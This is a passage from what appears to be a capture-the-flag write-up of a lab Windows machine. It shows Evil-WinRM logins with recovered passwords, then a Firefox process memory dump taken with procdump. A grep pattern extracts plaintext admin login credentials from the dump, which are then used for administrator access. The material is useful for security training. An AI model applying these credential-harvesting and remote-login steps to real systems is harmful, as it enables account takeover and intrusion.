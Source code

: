  I took these new user names and my list of passwords, and I used Evil-WinRM to try connecting as each with different passwords. When I got to chase / ‘Q4)sJu\Y8qz*A3?d’, it connected:
 ```
evil-winrm -i 10.10.10.149 -u SUPPORTDESK\\chase -p 'Q4)sJu\Y8qz*A3?d'
```

There is a todo.txt from the desktop of user chase
```
type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.

```

How would chase check the issues list? With a browser. I’ll also notice that multiple instances of firefox are in the process list:
```
get-process firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    355      25    16444      39108       0.09   4584   1 firefox
   1160      69   135360     211264       4.44   6444   1 firefox
    347      20    10188      38756       0.05   6556   1 firefox
    401      34    31348      90168       0.55   6708   1 firefox
    378      28    21840      58496       0.28   7020   1 firefox
```

I’ll grab procdump64.exe from the sysinternals tools page, and upload it to Heist:
Now I’ll run it on one of the pids for firefox from above:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64 -ma 6252 -accepteula

ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[02:54:30] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_190823_025430.dmp
[02:54:30] Dump 1 writing: Estimated dump file size is 280 MB.
[02:54:32] Dump 1 complete: 281 MB written in 2.1 seconds
[02:54:33] Dump count reached.
```

Now I’ll look for any POST requests in memory using grep and the format I found above:
```
root@kali# grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=' firefox.exe_190823_025430.dmp 
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
I’ve got a password there. I can check, and it does match the hash from the source code:
```
 echo -n '4dD!5}x/re8]FBuZ' | sha256sum 
91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040  -
```

Then we can use evil-winrm to connect it
```
evil-winrm -i 10.10.10.149 -u SUPPORTDESK\\administrator -p '4dD!5}x/re8]FBuZ'
```